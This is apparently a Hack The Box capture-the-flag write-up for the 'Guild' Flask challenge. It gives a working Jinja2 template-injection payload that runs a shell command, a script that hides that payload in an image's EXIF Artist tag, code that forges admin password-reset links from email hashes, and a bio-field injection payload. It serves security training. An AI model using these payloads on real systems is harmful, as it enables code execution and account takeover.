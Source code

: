 # Hack The Box CTF Writeup - Guild
# Challenge Name: Try Out - Guild

Challenge Description
The Guild challenge is a Flask-based web application with features like user verification, password reset, and user profiles. The goal is to exploit vulnerabilities such as Server-Side Template Injection (SSTI) in the file upload functionality, a weak password reset mechanism, and insufficient input validation to escalate privileges and gain access to the flag.

Vulnerabilities and Exploitation
1. Server-Side Template Injection (SSTI) in File Upload
The file upload functionality allows users to upload verification documents. These documents are processed and verified by an admin, but EXIF metadata embedded in the image files is not properly sanitized. The vulnerability arises from the use of Jinja2 template rendering in the server-side code, which allows arbitrary Python code execution via Server-Side Template Injection (SSTI).

Exploit Overview:
The EXIF "Artist" tag is processed and passed through render_template_string() which can evaluate Jinja2 expressions.
By injecting a malicious Jinja2 payload into the Artist EXIF tag, we can execute arbitrary Python code on the server.
Malicious Payload for EXIF Artist Tag:
python
Copy code
b'{{ request.application.__globals__.__builtins__.__import__("os").popen("cat flag.txt").read() }}'
This payload tries to execute cat flag.txt on the server, which returns the content of the flag.txt file.

Steps to Exploit:
Craft Malicious Image with Payload: Use a Python script to embed the malicious payload in the Artist tag of the image’s EXIF metadata.

```python
from PIL import Image
import piexif

# Create a simple image
img = Image.new('RGB', (100, 100), color='red')

# Define EXIF data with malicious payload in the "Artist" field
exif_dict = {
    "0th": {
        0x013B: b'{{ request.application.__globals__.__builtins__.__import__("os").popen("cat flag.txt").read() }}',
    }
}

# Convert EXIF dictionary to bytes
exif_bytes = piexif.dump(exif_dict)

# Save the image with EXIF data
img.save("exploit.jpg", exif=exif_bytes)
```
Upload the Malicious Image: Upload the crafted image through the /verification endpoint.

Admin Verification:

The admin will verify the uploaded image and the malicious payload will be executed on the server, revealing the flag.
2. Weak Password Reset Mechanism
The password reset functionality relies on SHA-256 hashes of email addresses to generate password reset links. This mechanism is vulnerable because the hash of the email is predictable and does not have any additional security, such as time-based expiration or randomness.

Exploit Overview:
We can generate the password reset link for any user, including the admin, by simply hashing their email address.
By intercepting the reset link, we can change the password of any user, including the admin.
Steps to Exploit:
Generate Reset Link: Using the admin's email, we generate the password reset link by hashing the email address with SHA-256.

```python
import hashlib

# Admin's email
email = "admin@guild.com"

# Generate SHA-256 hash of the email
hashed = hashlib.sha256(email.encode()).hexdigest()

# Construct the reset link
reset_link = f"changepasswd/{hashed}"

print("Reset Link:", reset_link)
```
Use the Reset Link:

Visit the reset link, set a new password, and gain access to the admin account.
3. Insecure Input Validation in Bio Field
The bio field, which allows users to update their profile bio, does not properly validate inputs. Although there is a blacklist of certain dangerous characters, the blacklist-based approach can be easily bypassed. This flaw allows an attacker to inject malicious code into their bio, which could potentially lead to XSS or RCE.

Exploit Overview:
The bio input is not sanitized, and users can input harmful scripts or payloads that may be executed on the server.
Example Payload:
The attacker could input the following XSS payload in their bio:

```html
<td>{{User.query.filter_by(username="admin").first().email}}</td>
```
This would be executed when the admin views the user's profile or when the user views their own profile, revealing the vulnerability.

Steps to Exploit:
Update Bio:
Input the malicious payload in the bio field.
If the input validation is bypassed, the payload will be stored in the database and executed when rendered.
Flag Retrieval
To retrieve the flag:

Reset the admin password using the generated password reset link.
Log in as admin and verify the malicious image.
The injected payload in the EXIF "Artist" tag will execute and display the flag.
